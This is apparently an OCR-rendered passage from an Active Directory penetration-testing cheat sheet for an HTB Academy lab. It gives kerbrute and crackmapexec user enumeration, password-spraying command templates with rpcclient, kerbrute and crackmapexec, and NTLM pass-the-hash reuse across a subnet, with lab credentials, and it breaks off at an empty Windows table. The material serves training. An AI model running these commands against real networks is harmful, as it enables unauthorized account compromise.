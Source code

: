 | `kerbrute userenum -d [domain] --dc [DC IP] [user list file]`                                                                  | `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`                                                                                                                    | Enumerates valid domain user accounts using Kerberos pre-authentication with a supplied wordlist.                              |
| `crackmapexec smb [target IP] -u [username] -p [password] --users`                                                              | `sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users`                                                                                                             | Enumerates domain users over SMB using valid domain credentials to help build a target user list for password spraying.         |


---

### Internal Password Spraying – from Linux

#### Password Spraying with rpcclient

| Command/Flag                                                                                          | Example                                                                                                                       | Description                                                                                         |
|-------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------|
| `for u in $(cat [user_list]); do rpcclient -U "$u%[password]" -c "getusername;quit" [target_IP]; done \| grep Authority` | `for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5; done \| grep Authority`      | Loops through a list of usernames attempting to authenticate with a common password, filtering successful logins. |

#### Password Spraying with Kerbrute

| Command/Flag                                                                                          | Example                                                                                                                       | Description                                                                                         |
|-------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------|
| `kerbrute passwordspray -d [domain] --dc [DC_IP] [user_list] [password]`                              | `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`                                      | Performs a Kerberos-based password spray against a list of users using a single password.           |

#### Password Spraying with CrackMapExec

| Command/Flag                                                                                          | Example                                                                                                                       | Description                                                                                         |
|-------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------|
| `crackmapexec smb [target_IP] -u [user_list_file] -p [password] \| grep +`                            | `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +`                                                | Attempts SMB logins using a password spray and filters output to show only successful authentications. |
| `crackmapexec smb [target_IP] -u [username] -p [password]`                                            | `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`                                                                 | Validates a single user/password pair against the target via SMB.                                   |

#### Local Administrator Password Reuse via NTLM Hash

| Command/Flag                                                                                          | Example                                                                                                                       | Description                                                                                         |
|-------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------|
| `crackmapexec smb --local-auth [CIDR] -u [username] -H [NTLM_hash] \| grep +`                         | `sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +`             | Performs a password reuse spray using an NTLM hash across multiple hosts with local admin accounts. |

---

### Internal Password Spraying – from Windows

#### Password Spraying with DomainPasswordSpray

| Command/Flag                                                             | Example                                                                                                                         | Description                                                                                                              |